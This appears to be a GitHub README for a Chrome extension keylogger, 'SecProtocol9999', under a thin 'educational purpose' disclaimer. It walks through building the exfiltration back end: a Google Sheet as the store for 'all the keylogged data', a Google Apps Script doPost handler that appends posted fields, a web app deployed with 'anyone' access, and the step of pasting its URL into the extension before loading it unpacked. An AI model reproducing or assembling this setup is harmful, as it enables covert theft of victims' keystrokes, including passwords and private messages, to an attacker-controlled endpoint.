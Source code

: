 DISCLAIMER : [NOTICE] - IT SHOULD ONLY BE USED FOR EDUCATIONAL PURPOSE BY SENIOR DEVELOPERS. ANY MISUSE OF "Mushahid Ali's" CODE WILL BE CONSIDERED AS A PUNISHABLE OFFENSE!

Before using this Chrome Extension, first create the following -

#1. Create a Google Spreadsheet at : https://docs.google.com/spreadsheets/u/0/ so that we can make Google Sheets as a database where we can store all the keylogged data!

#2. At the first row, first column[A1]; insert text such as "first".

#3. At the first row, second column[B1]; insert text such as "second".

#4. Now, we need a script(INTERFACE) to connect Google Sheets(dataBase) with our Chrome Extension script. For that we'll be using Google App Script service. Go to "Tools" and then select to Script Editor.

#5. In the code section, paste the following code, save it, run the code : 

```
function doGet(e) {
    //Displays the text on the webpage.
    return ContentService.createTextOutput("This is a GET Request!");
}

function doPost(e) {
    var sheet = SpreadsheetApp.getActiveSheet();
    
    //Parsing the request body
    var body = JSON.parse(e.postData.contents)
    
    //Adding a new row with content from the request body
    sheet.appendRow([body.first,
    body.second
    ])
}
```

#6. Go to "Deploy" and then click on "New Deployment".

#7. In it, click on the "Service Type" and click on "Web App". Fill the data only for : "Execute as" to : YOURMAIL@MAIL.com AND "Who has access" to : "anyone".

#8. And then deploy it. NOTICE : If it asks for "Review permission", grant it permission even if it is showing "This App ins't verified", click on Advanced and click on the unsafe link below it.

#9. And FINALLY it will provide you with a Web App URL(LINK), copy it and paste it in the two variables known as "url" in the "secprotocol.js" file before using the SecProtocol9999 Chrome:extension services! All The Chrome Extension files should be inside a folder for it to be usable!

IF YOU DO NOT KNOW HOW TO UPLOAD "CHROME EXTENSION", FOLLOW THE STEPS BELOW : 
-> Go to, chrome://extensions and click on the "Load Unpacked" button and select your Chrome Extension Folder known as "secprotocol9999" and that's all!

This Is Mushahid Ali, signing out!
ENJOY!
